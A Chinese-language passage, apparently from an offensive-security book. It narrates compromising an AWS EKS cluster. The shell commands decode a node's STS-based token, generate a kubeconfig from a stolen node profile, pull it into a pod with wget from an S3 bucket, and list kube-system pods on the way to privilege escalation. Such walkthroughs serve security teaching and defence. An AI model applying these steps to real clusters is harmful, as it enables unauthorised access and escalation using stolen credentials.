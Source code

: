 我们这次获得的令牌不是标准的 JWT；相反，它包含了调用 STS 服务的 `GetCallerIdentity` API 所需的构建块。让我们使用 `jq`、`cut`、`base64` 和 `sed` 等工具解码我们之前获得的部分令牌：

```
root@Point1:~/# **aws eks get-token --cluster-name prod-euw1 \**
**| jq -r .status.token \**
**| cut -d"_" -f2 \**
**| base64 -d \**
**| sed "s/&/\n/g"**

https://sts.amazonaws.com/?Action=GetCallerIdentity
&Version=2011-06-15
&X-Amz-Algorithm=AWS4-HMAC-SHA256
&X-Amz-Credential=ASIA44ZRK6WSYQ5EI4NS%2F20191118/us-east-1/sts/aws4_request
&X-Amz-Date=20191118T204239Z
&X-Amz-Expires=60
&X-Amz-SignedHeaders=host;x-k8s-aws-id
&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEIX/////...
```

JWT 实际上是一个编码过的预签名 URL，包含节点的身份。任何人都可以重新播放这个 URL 来验证该节点是否确实是它声称的那样。EKS 接收到这个令牌时，正是这么做的。正如 AWS IAM 通过 JWT 信任 OpenID 来识别和认证 Kube 用户一样，EKS 也通过 Web 调用 `sts.amazon.com` 端点信任 IAM 来做同样的事情。

我们可以像之前一样使用这个令牌通过 `curl` 命令向 API 服务器发起请求，但我们最好生成一个完整的 Kubectl 配置文件，将其下载到我们那个值得信赖的 Pod 中：

```
root@Point1:~/# **aws eks update-kubeconfig --name prod-euw1 --profile node**

Updated context arn:aws:eks:eu-west-1:886477354405:cluster/prod-euw1 in /root/.kube/config
shell> **wget https://mxrads-archives-packets-linux.s3-eu-west-1.amazonaws.com/config**

shell> **mkdir -p /root/.kube && cp config /root/.kube/**
```

测试我们是否获得新权限的一个快速方法是列出 `kube-system` 命名空间中的 Pods。这个命名空间包含了主控 Pod —— kube api-server、etcd、coredns —— 以及其他用于管理 Kubernetes 的关键 Pod。记住，我们之前的令牌仅限于 `prod` 命名空间，因此获得对 `kube-system` 的访问权限将是一个巨大的进步：

```
shell> **kubectl get pods -n kube-system**

NAME                       READY   STATUS    RESTARTS   AGE
aws-node-hl227             1/1     Running   0          82m
aws-node-v7hrc             1/1     Running   0          83m
coredns-759d6fc95f-6z97w   1/1     Running   0          89m
coredns-759d6fc95f-ntq88   1/1     Running   0          89m
kube-proxy-724jd           1/1     Running   0          83m
kube-proxy-qtc22           1/1     Running   0          82m
`--snip--`
```

我们成功列出了 Pods！太棒了！显然，由于我们处于托管的 Kubernetes 中，最重要的 Pods（kube-apiserver、etcd、kube-controller-manager）被 Amazon 隐藏起来，但其余的 Pods 还是能看到。

### Kube 权限提升

让我们好好利用我们新的权限。我们要做的第一件事是获取 Kube 中定义的所有秘密；然而，当我们尝试时，我们发现即使 `system:nodes` 组理论上有权限这么做，它也不能随意请求秘密：
